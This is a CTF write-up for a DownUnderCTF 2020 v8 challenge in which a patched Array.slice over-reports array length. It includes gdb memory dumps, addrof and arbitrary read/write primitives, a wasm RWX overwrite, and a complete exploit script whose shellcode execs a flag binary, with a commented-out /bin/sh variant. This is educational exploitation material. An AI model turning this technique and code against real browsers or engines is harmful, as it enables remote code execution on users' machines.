


DownUnderCTF 2020 |
Version | v1.0.0 | |
|---|---|---|---|
| Updated | |||
| Author | Seb | Home | |
This was a great javascript engine exploitation challenge which had a nice mix of traditional ctf exploitation elements and v8 specific details. Would recommend giving it a go if you’re starting out learning about js engines!

As part of the challenge we are given a patched debug build of d8, the v8 developer shell, which allows you to run javascript in the v8 engine, easily attach gdb, and gives access to some very handy debugging functions.
We are also given a patch.diff file which highlights the changes made
to v8 as part of this challenge. If you wish to build v8 with the patch, be sure to
git apply it to your local v8 repo, however the provided d8
binary is all we need to complete the challege.
The important differences were the changes to
src/builtins/array-slice.tq:
- return ExtractFastJSArray(context, a, start, count);
+ // return ExtractFastJSArray(context, a, start, count);
+ // Instead of doing it the usual way, I've found out that returning it
+ // the following way gives us a 10x speedup!
+ const array: JSArray = ExtractFastJSArray(context, a, start, count);
+ const newLength: Smi = Cast<Smi>(count - start + SmiConstant(2))
+ otherwise Bailout;
+ array.ChangeLength(newLength);
+ return array;Even without much v8 knowledge we can tell that slicing an array will give us a different length than what we would normally expect. Let’s see this in action in the d8 binary we are given:
V8 version 8.7.9
d8> a = [1.1, 2.2, 3.3, 4.4]
[1.1, 2.2, 3.3, 4.4]
d8> a.length
4
d8> b = a.slice(0)
[1.1, 2.2, 3.3, 4.4, , ]
d8> b.length
6Slicing an array from 0 should give us back the same array (with the same length) but here we see array b has a length of 6 instead. What happens if we access the two elements at the end of this array?
d8> b[4]
4.768128617178215e-270
d8> b[5]
2.5530533391e-313Those are some unexpected numbers. To understand what exists past the end of a JSArray, we should first look at how a JSArray works internally.
d8 has some useful inbuilt functions that can be used with the
--allow-natives-syntax flag, including the
%DebugPrint function, which shows different information
about the given parameter. Using these functions in the debug build of
d8 gives us even more info:
d8> %DebugPrint(b)
DebugPrint: 0x307a080862f9: [JSArray]
- map: 0x307a082438fd <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
- prototype: 0x307a0820a555 <JSArray[0]>
- elements: 0x307a080862d1 <FixedDoubleArray[4]> [PACKED_DOUBLE_ELEMENTS]
- length: 6
- properties: 0x307a080426dd <FixedArray[0]> {
0x307a08044649: [String] in ReadOnlySpace: #length: 0x307a08182159 <AccessorInfo> (const accessor descriptor)
}
- elements: 0x307a080862d1 <FixedDoubleArray[4]> {
0: 1.1
1: 2.2
2: 3.3
3: 4.4
}
0x307a082438fd: [Map]
- type: JS_ARRAY_TYPE
- instance size: 16
- inobject properties: 0
- elements kind: PACKED_DOUBLE_ELEMENTS
- unused property fields: 0
- enum length: invalid
- back pointer: 0x307a082438d5 <Map(HOLEY_SMI_ELEMENTS)>
- prototype_validity cell: 0x307a08182445 <Cell value= 1>
- instance descriptors #1: 0x307a0820abd9 <DescriptorArray[1]>
- transitions #1: 0x307a0820ac25 <TransitionArray[4]>Transition array #1:
0x307a08044f5d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x307a08243925 <Map(HOLEY_DOUBLE_ELEMENTS)>
- prototype: 0x307a0820a555 <JSArray[0]>
- constructor: 0x307a0820a429 <JSFunction Array (sfi = 0x307a0818b399)>
- dependent code: 0x307a080421e1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
- construction counter: 0
[1.1, 2.2, 3.3, 4.4, , ]That’s a lot of info, but for the purposes of this writeup we will
focus on the map and elements members. Before
getting to that, lets see what the memory around a JSArray looks like to
start building some context.
To look at that we need to touch on how pointers are
represented in v8- pointers are distinguished from other numbers by
having their least significant bit set to 1. Therefore, the memory we
should access from the %DebugPrint is
0x307a080862f9-0x1
JSArray b
gef➤ x/4gx 0x307a080862f9-0x1
0x307a080862f8: 0x080426dd082438fd 0x0000000c080862d1
0x307a08086308: 0x080426dd0824394d 0x0000000c08086341That doesn’t exactly look like the output from
%DebugPrint, but looking at the least significant 32 bits
and comparing to the ‘real’ pointers:
map: 0x307a082438fd
elements: 0x307a080862d1The first member of the JSArray corresponds to the map pointer, and second corresponds to the elements pointer. These values are different because of pointer compression in v8, which we’ll briefly touch on soon. For now it’s enough to know what the first two members of a JSArray correspond to.
Before moving on, it’s also worthwhile looking at where the elements pointer points to:
gef➤ x/8gx 0x307a080862d1-0x1
0x307a080862d0: 0x0000000808042a31 0x3ff199999999999a
0x307a080862e0: 0x400199999999999a 0x400a666666666666
0x307a080862f0: 0x401199999999999a 0x080426dd082438fd
0x307a08086300: 0x0000000c080862d1 0x080426dd0824394dWe can see all of our float values in there, and can identify the
last one as 0x401199999999999a:
gef➤ p/f 0x401199999999999a
$1 = 4.4000000000000004The memory blocks after the 4.4 look familiar! Indeed, we have run into the start of our JSArray.
The memory structure looks something like this:
+-------------+-------------+
0x307a080862d0 | | |
+------>| | 1.1 |
| +---------------------------+
| | | |
| | 2.2 | 3.3 |
| +---------------------------+
| | | float_arr | 0x307a080862f8
| | 4.4 | map | JSArray start
| +---------------------------+
| | elements | |
+-------+ ptr | |
+-------------+-------------+
We can finally answer the question of what exists at the end of a JSArray (specifically past the end of where its elements are stored): The JSArray itself!
So the values we were printing out at b[4] and
b[5] corresponded to the map and elements pointer values
for the b JSArray
Note that in this case our elements are of the type
PACKED_DOUBLE_ELEMENTS If we were to add elements past the
length of our array normally the actual elements array would be
reallocated elsewhere. However the length of our array has been extended
to cover these pointers, so we can access them freely.
The map member contains several pieces of data, but importantly for us it determines how data in the array is accessed- For example, accessing something in a float array is different to accessing an element in an array of objects.
For further details on maps and other cool JS related information, this article by saelo is a great read.
For the challenge, all we really need to know is that the map for a float array will cause the elements to be accessed directly as they are stored in the elements pointer, while the map of an object array will treat the values in the elements pointer as pointers to other objects.
Pointer compression is described well here for the interested reader.
Basically, the lower 32 bits of an address in the v8 heap are combined with another number (the isolate root) stored elsewhere to create an actual memory reference.
What this means for us is that we won’t know the actual address of anything in the v8 heap, but we don’t really need to know their actual address, just the compressed pointer.
Accessing elements in a JSArray is done through its ‘compressed’ elements pointer, so if we had control of this elements pointer we could point it and achieve a r/w primitive anywhere within its own heap- we don’t need to know the isolate root value because its handled automatically for us.
Writing outside the v8 heap requires a little more work, but
not much.
We have all the information we really need to start writing some
useful primitives. Two of the common ones for v8 exploitation are
addrof and fakeobj. addrof is
used to return the address of some desired object, and
fakeobj is used to create a fake object at a desired
address, which might further be used for arbitrary r/w. We won’t be
creating a fakeobj primitive because the challenge gives us
an easy way to do r/w. addrof will still be useful.
Here are some helper functions (yoinked from one of Faith’s writeups (thanks)) used for converting between ints and floats in the exploit:
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
function ftoi(val) { // typeof(val) == float
f64_buf[0] = val;
return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}
function itof(val) { // typeof(val) == BigInt
u64_buf[0] = Number(val & 0xffffffffn);
u64_buf[1] = Number(val >> 32n);
return f64_buf[0];
}First we setup some initial arrays to use and trigger the vulnerability:
a = [1.1, 2.2, 3.3];
b = [{A:1}, {B:2}, {C:3}];
float_arr = a.slice(0);
obj_arr = b.slice(0);In this case float_arr.length will be 5, allowing us to
access it’s map and elements pointers. The map pointer won’t be used in
this exploit, but modifying it (to say, the same as an object map) would
also allow for some fun exploits. Here
is a cool ctf writeup involving playing around with different maps.
Also note that the slice vuln is also triggered on
obj_arr, but isn’t used in the exploit.
As discussed, the float map and elements pointers can now be directly accessed:
float_map = float_arr[3];
float_elems = float_arr[4];Because of the deterministic heap layout we can find out (e.g. with gdb) what values our object map+elements pointers will have using the float values we already know.
In this case, I found that the object pointer will have a value of
float_map + 0x50 and the object elements pointer will have
a value of float_elems + 0x30:
obj_map = itof(ftoi(float_map) + (0x50n));
obj_elems = itof(ftoi(float_elems) + (0x30n));We can now construct our addrof primitive.
Because we have control the the float array’s elements pointer, we can set it to whatever value we want. We know the value of the object array’s elements pointer, so what would happen if we set it to that?
Both the float and object array would then have their elements in the same place, but each will access them differently.
obj_arr float_arr
+----------+---------+ +-----------+---------+
| map | elems | | map |elems |
| | | | | |
+----------+-----+---+ +-----------+-----+---+
| |
+-----+----------------------------+
|
v
+--------------+
| obj ptr1 |+---> {A:1.1}
+--------------+
| obj ptr2 |+---> {B:2.2}
+--------------+
| ... |
| |
| |
| |
+--------------+
For example, the value at obj_arr[0] is a pointer to an
object, and accessing it through the obj_arr will treat it
like an object (because of its map!) float_arr has a
different map, that means accessing float_arr[0] will
simply treat the object pointer there as a float value.
Therefore we can stick any object we want into obj_arr,
then accessing it through float_arr will give us its
pointer.
Here is our primitive:
function addrof(in_obj) {
// put the obj into our object array
obj_arr[0] = in_obj;
// accessing the first element of the float array
// treats the value there as a float:
let addr = float_arr[0];
// Convert to bigint
return ftoi(addr);
}From what we have so far, building an arbitrary r/w is fairly straightforward since we have direct control over the elements pointer of a JSArray- we can simply point it to the area we want to r/w from. However, because of pointer compression this can only be done within the v8 heap.
function arb_r(addr) { // typeof(addr) == BigInt
t = [1.1]
// read is performed at addr + 0x8
addr = addr - 0x8n
// ensure addr is tagged as a pointer
if (addr % 2n == 0) {
addr += 1n;
}
// trigger the vuln
tmp_arr = t.slice(0)
// set elem ptr to desired address
tmp_arr[2] = itof(addr)
// return value there as a BigInt
return ftoi(tmp_arr[0])
}
function arb_w(addr, val) { // both as BigInts
t = [1.1]
// write is made at addr + 0x8
addr = addr - 0x8n
// ensure addr is tagged
if (addr % 2n == 0) {
addr += 1n;
}
// trigger the vuln
tmp_arr = t.slice(0)
// set elem ptr to desired address
tmp_arr[2] = itof(addr)
// set addr to desired value
tmp_arr[0] = itof(val)
}To achieve r/w outside the v8 heap, we can use typed arrays
var buf = new ArrayBuffer(0x100)
var uint8_arr = new Uint8Array(buf)Here buf is another object within the v8 heap (and thus
in scope of our existing r/w functions). However its backing store (the
place where the uint8_arr will store its elements) will
exist outside the v8 heap (this it will be identified by an ‘absolute’
64bit pointer).
v8 heap 'actual' heap
+----------------------------+ +---------------------+
| | | |
| buf +--------------+ | +--> |
| | | | | | |
| | . . . | | | | |
| | | | | +---------------------+
| | | | |
| +--------------+ | |
| | backing | | |
| | store ptr +----------+
| +--------------+ |
+----------------------------+
Luckily this absolute backing store pointer exists at a constant
offset within buf, so if we know the address of
buf in the v8 heap we can use our existing r/w primitives
to modify the backing store pointer.
After modifying this backing store pointer, any accesses to
uint8_arr will happen at our chosen address- this means we
need an ‘absolute’ address (not a compressed pointer in the v8 heap).
One such address we might be interested in writing to is a segment of
web assembly.
Another fun feature is the use of web assembly modules in v8. These currently create rwx memory segments, which make them a prime exploit target, although who knows for how much longer that will be the case.
This is how we would create an executable wasm function in v8: The actual wasm code can be generated here.
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_func = wasm_instance.exports.main;Afterwards, the code there can be executed with
wasm_func()
Much like the typed array situation, the wasm_instance
object will exist in the v8 heap (thus accessible with our arb r/w and
addrof functions), and it will contain a pointer to the rwx wasm code
segment (which is outside the v8 heap). With gdb, I found this offset to
be 0x68.
The challenge requires us to execute the
/chal/flagprinter file on the remote system, which we can
do through some simple shellcode if we can abuse those wasm modules.
We already have all the primitives we need, so now it’s just a matter of putting it all together.
First we can create the web assembly module described above, creating
a rwx memory segment. We can use our addrof and
arb_r functions to get the absolute address of this
segment:
// rwx ptr can be found at wasm_instance+0x68
var addr_to_read = addrof(wasm_instance) + 0x68n;
var rwx = arb_r(addr_to_read)Afterwards we can setup our arbitrary write to outside the v8 heap using a typed array, and overwrite its backing store pointer to our rwx segment.
var buf = new ArrayBuffer(0x100)
var uint8_arr = new Uint8Array(buf)
var buf_addr = addrof(buf)
// offset to backing store ptr at 0x60
var backing_addr = buf_addr + 0x60n
// overwrite backing store ptr so all uint8_arr access happen in the rwx segment
arb_w(backing_addr, rwx)After that, its a simple matter of copying in our shellcode and
running wasm_func(). I used this
to generate the shellcode array.
// execve /chal/flagprinter
var shellcode = [0x48, 0xC7, 0xC0, 0x3B, 0x00, 0x00, 0x00, 0x48, 0x31, 0xF6, 0x48, 0x31, 0xD2, 0x48, 0xC7, 0xC1, 0x72, 0x00, 0x00, 0x00, 0x51, 0x48, 0xB9, 0x61, 0x67, 0x70, 0x72, 0x69, 0x6E, 0x74, 0x65, 0x51, 0x48, 0xB9, 0x2F, 0x63, 0x68, 0x61, 0x6C, 0x2F, 0x66, 0x6C, 0x51, 0x48, 0x89, 0xE7, 0x0F, 0x05]
// backing store now points to the rwx segment, copy in our shellcode
for (let i = 0; i < shellcode.length; i++) {
uint8_arr[i] = shellcode[i]
}
// run shellcode
wasm_func();
Thanks faith!!!
—-[ - Full exploit code
// Helper functions to convert between float and integer primitives
// taken from this writeup: https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
function ftoi(val) { // typeof(val) == float
f64_buf[0] = val;
return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}
function itof(val) { // typeof(val) == BigInt
u64_buf[0] = Number(val & 0xffffffffn);
u64_buf[1] = Number(val >> 32n);
return f64_buf[0];
}
// debugging function to display float values as hex
function toHex(val) {
return "0x" + ftoi(val).toString(16);
}
// set up starter arrays to slice
a = [1.1, 2.2, 3.3];
b = [{A:1}, {B:2}, {C:3}];
// trigger the bug- sizeof new arrays = old array length + 2
float_arr = a.slice(0);
obj_arr = b.slice(0);
// this value exists 1 element past the end of the array, which is the start
// of the float JSArray (where its map is found)
float_map = float_arr[3];
// elements ptr for our float array is next to the map
float_elems = float_arr[4];
// map differences: obj - float = 0x50
// elements ptr: obj - float = 0x30
// these values are true if allocated in the order above
obj_map = itof(ftoi(float_map) + (0x50n));
obj_elems = itof(ftoi(float_elems) + (0x30n));
// helper functions to manipulate JSArray maps and elem pointers
function set_float_arr_map(val) { //typeof(val) == float
float_arr[3] = val;
}
function set_float_arr_elems(val) { //typeof(val) == float
float_arr[4] = val;
}
// point float elements to the obj elements
// float_arr and obj_arr now share an elements ptr, but treat
// the elements differently
set_float_arr_elems(obj_elems)
function addrof(in_obj) {
// put the obj into our object array
obj_arr[0] = in_obj;
// accessing the first element of the float array
// treats the value there as a float:
let addr = float_arr[0];
// Convert to bigint
return ftoi(addr);
}
// 'arbitrary' r/w functions using the .slice() vuln to change the
// elements ptr to the given address
// due to pointer compression in v8, we can only use this r/w in the v8 heap
function arb_r(addr) { // typeof(addr) == BigInt
t = [1.1]
// read is performed at addr + 0x8
addr = addr - 0x8n
// ensure addr is tagged as a pointer
if (addr % 2n == 0) {
addr += 1n;
}
tmp_arr = t.slice(0)
// set elem ptr to desired address
tmp_arr[2] = itof(addr)
// return value there as a BigInt
return ftoi(tmp_arr[0])
}
function arb_w(addr, val) { // both as BigInts
t = [1.1]
// write is made at addr + 0x8
addr = addr - 0x8n
// ensure addr is tagged
if (addr % 2n == 0) {
addr += 1n;
}
tmp_arr = t.slice(0)
// set elem ptr to desired address
tmp_arr[2] = itof(addr)
// set addr to desired value
tmp_arr[0] = itof(val)
}
// setup rwx wasm module
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_func = wasm_instance.exports.main;
console.log('[+] wasm instance at 0x' + addrof(wasm_instance).toString(16))
// rwx ptr can be found at wasm_instance+0x68
var addr_to_read = addrof(wasm_instance) + 0x68n;
var rwx = arb_r(addr_to_read)
// this pointer is not compressed, it exists outside the v8 heap
console.log('[+] RWX segment at 0x' + rwx.toString(16))
//https://defuse.ca/online-x86-assembler.htm#disassembly
// execve /chal/flagprinter
var shellcode = [0x48, 0xC7, 0xC0, 0x3B, 0x00, 0x00, 0x00, 0x48, 0x31, 0xF6, 0x48, 0x31, 0xD2, 0x48, 0xC7, 0xC1, 0x72, 0x00, 0x00, 0x00, 0x51, 0x48, 0xB9, 0x61, 0x67, 0x70, 0x72, 0x69, 0x6E, 0x74, 0x65, 0x51, 0x48, 0xB9, 0x2F, 0x63, 0x68, 0x61, 0x6C, 0x2F, 0x66, 0x6C, 0x51, 0x48, 0x89, 0xE7, 0x0F, 0x05]
// execve /bin/sh
//shellcode = [0x48, 0xC7, 0xC0, 0x3B, 0x00, 0x00, 0x00, 0x48, 0x31, 0xF6, 0x48, 0x31, 0xD2, 0x48, 0xB9, 0x2F, 0x62, 0x69, 0x6E, 0x2F, 0x73, 0x68, 0x00, 0x51, 0x48, 0x89, 0xE7, 0x0F, 0x05]
// set up a typed array to do writing outside the heap
// the ArrayBuffer exists within the v8 heap, so we can write to it with
// our current arb_w setup
// the backing store ptr points to outside the v8 heap, so we can overwrite
// it with the real address of our rwx region
var buf = new ArrayBuffer(0x100)
var uint8_arr = new Uint8Array(buf)
var buf_addr = addrof(buf)
// offset to backing store ptr at 0x60
var backing_addr = buf_addr + 0x60n
console.log('[+] Writing over ArrayBuffer backing store at 0x' + backing_addr.toString(16))
// overwrite backing store ptr so all uint8_arr access happen in the rwx segment
arb_w(backing_addr, rwx)
console.log('[+] Copying shellcode to rwx segment')
// backing store now points to the rwx segment, copy in our shellcode
for (let i = 0; i < shellcode.length; i++) {
uint8_arr[i] = shellcode[i]
}
console.log('[+] Shellcode copied, executing')
// run shellcode
wasm_func();